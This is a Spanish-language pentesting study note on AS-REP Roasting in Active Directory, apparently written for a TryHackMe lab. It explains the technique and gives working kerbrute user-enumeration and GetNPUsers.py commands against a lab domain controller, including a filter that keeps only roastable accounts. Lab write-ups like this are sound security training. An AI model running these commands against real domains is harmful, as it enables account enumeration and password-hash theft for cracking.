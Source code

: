 Es una técnica que consiste en encontrar usuarios que no requieren pre-autenticación de Kerberos. Lo cual significa que cualquiera puede enviar una petición AS_REQ en nombre de uno de esos usuarios y recibir un mensaje AS_REP correcto. Esta respuesta contiene un pedazo del mensaje cifrado con la clave del usuario, que se obtiene de su contraseña. Para ello podemos usar una herramienta que se llama **GetNPUsers.py** usándola de la siguiente forma
# Herramientas
[[Kerbrute]]
[[GetNPUsers]]

# Ejemplom practico
Realizamos una enumeracion de usuarios con **kerbrute** y encontramos que hay un usuario que no necesita credenciales para validarse
```
kerbrute userenum --dc 10.10.143.170 -d THM-AD userlist.txt -o users.txt
```
![[Pasted image 20240717103359.png]]


----------------------------------------

**OPCIÓN 1 ->** Proporcionando un diccionario de usuarios, por ejemplo dentro del diccionario users
```
GetNPUsers.py spookysec.local/ -no-pass -usersfile userlist.txt -dc-ip 10.10.143.170
```
![[Pasted image 20240717120145.png]]

Podemos listar que unicamente muestre la salida correcta con el siguiente comando
```
GetNPUsers.py spookysec.local/ -no-pass -usersfile userlist.txt -dc-ip 10.10.143.170 2>&1 | grep -v "Kerberos SessionError" | grep -v "doesn't have UF_DONT_REQUIRE_PREAUTH set"
```
![[Pasted image 20240717120354.png]]

**OPCIÓN 2 ->** Proporcionando un único usuario que hayamos podido encontrar anteriormente
![[Pasted image 20240717120451.png]]

[[MAQUINA ATTACKTIVE DIRECTORY(enum4linux, kerbrute enumerar usuarios, ASREPRoasting obtener TGT, john the ripper, smbclient para listar recursos compartidos, secredump dumpear hashes y pass the hash)]]